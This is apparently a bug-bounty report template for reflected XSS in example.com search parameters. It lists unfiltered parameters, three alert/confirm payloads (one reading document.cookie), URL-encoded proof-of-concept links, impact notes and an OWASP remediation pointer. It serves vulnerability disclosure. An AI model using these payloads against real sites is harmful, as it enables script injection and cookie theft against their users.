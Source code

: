# RXSS -Report Template
# SKidrow|Twitter:@firfox20 

################################################
**->  Scope = {

https://example.com/search/executeSearch?sp-q=FUZZ&sp-p=FUZZ&pag-start=FUZZ&sp-c=FUZZ&sp-m=FUZZ&sp-s=FUZZ  
https://example.comsearch/site?page=FUZZ  

}
################################################
**->  Reflected XSS Summary = { 

arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way
################################################
}
Reflected Parmaters = { 
Param: sp-q Unfiltered
Param: sp-p Unfiltered
Param: pag-start Unfiltered
Param: sp-c Unfiltered
Param: sp-m Unfiltered
Param: sp-s Unfiltered
Param: page Unfiltered
}

################################################
**->  Used RXSS Payloads = { 


"><img src=x onerror=alert(document.domain)>//
"><svg onload=confirm(1)>
"><img src=x onerror=alert(document.cookie)>//
}
################################################
**->  Steps to Reproduce = {

# - > Open below Urls Contains the Payloads [ And Watch Alert Popup }

}
################################################
**->  Full LInks of RXSS = { 
#1 - >RXSS
https://example.com/search/executeSearch?sp-q=%22%3E%3Csvg%20onload=confirm(1)%3E&sp-p=%22%3E%3Csvg%20onload=confirm(1)%3E&pag-start=%22%3E%3Csvg%20onload=confirm(1)%3E&sp-c=%22%3E%3Csvg%20onload=confirm(1)%3E&sp-m=%22%3E%3Csvg%20onload=confirm(1)%3E&sp-s=%22%3E%3Csvg%20onload=confirm(1)%3E

#2 - > RXSS 

https://example.com/search/site?page=%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E//

}
################################################
**-> Impact of reflected XSS attacks = {
Perform any action within the application that the user can perform.
View any information that the user is able to view.
modify any information that the user is able to modify.
nitiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user
########################################
**->PoC

{Attached}
########################################
**->Remediation

encode special characters like `'` `"` `<` `>`
## See also
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)

